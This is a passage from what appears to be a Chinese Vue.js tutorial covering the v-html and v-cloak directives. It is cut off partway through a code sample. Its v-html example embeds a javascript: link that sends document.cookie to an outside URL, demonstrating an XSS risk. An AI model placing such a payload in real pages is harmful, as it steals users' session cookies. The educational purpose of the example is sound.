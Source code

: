 ```vue
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>	
		<!-- 准备好一个容器-->
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```

### 其他指令

> v-cloak
>

- 本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉 v-cloak 属性
- 使用 css 配合 v-cloak 可以解决网速慢时页面展示出 `{{xxx}}` 的问题

```vue
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-cloak指令</title>
		<style>
			[v-cloak]{
				display:none;
			}
		</style>
		<!-- 引入Vue -->
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2 v-cloak>{{name}}</h2>
		</div>
		<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
	</body>
	
	<script type="text/javascript">
		console.log(1)
```